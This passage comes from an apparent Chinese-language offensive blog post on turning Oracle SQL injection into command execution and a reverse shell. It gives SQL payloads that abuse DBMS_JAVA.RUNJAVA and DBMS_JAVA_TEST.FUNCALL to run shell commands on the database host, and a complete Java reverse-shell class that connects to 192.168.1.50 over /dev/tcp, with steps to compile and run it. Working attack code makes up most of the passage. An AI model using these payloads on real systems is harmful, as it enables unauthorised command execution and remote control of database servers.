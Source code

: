 > - 影响版本： 10g R2, 11g R1, 11g R2
> - 权限：Java Permissions.

```sql
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper touch /tmp/success') FROM DUAL;

Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','pwd > /tmp/pwd.txt') from dual;
```

执行时报如下错，貌似没赋权？实际上赋权后还是一样的错误

[![test.funcall_error 2](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/test.funcall_error.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/test.funcall_error.png)

[test.funcall_error 2](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/test.funcall_error.png)



但不影响命令的执行

[![test.funcall_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/test.funcall_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/test.funcall_01.png)

[test.funcall_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/test.funcall_01.png)



该方式无回显，在注入时不太方便利用，但可通过此方式反弹 : )

#### 4、反弹shell

网上铺天盖地windows的payload，linux下根本无法反弹，自己手动测试java代码反弹，然后放入oracle Sql

java反弹代码如下：

```java
import java.io.*;
import java.net.*;
public class shellRev
{
        public static void main(String[] args)
        {
                System.out.println(1);
                try{run();}
                catch(Exception e){}
        }
public static void run() throws Exception
        {
                String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/192.168.1.50/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};
                Process p=Runtime.getRuntime().exec(aaa);
	}
}
#编译
javac shellRev.java
#执行
java shellRev
```
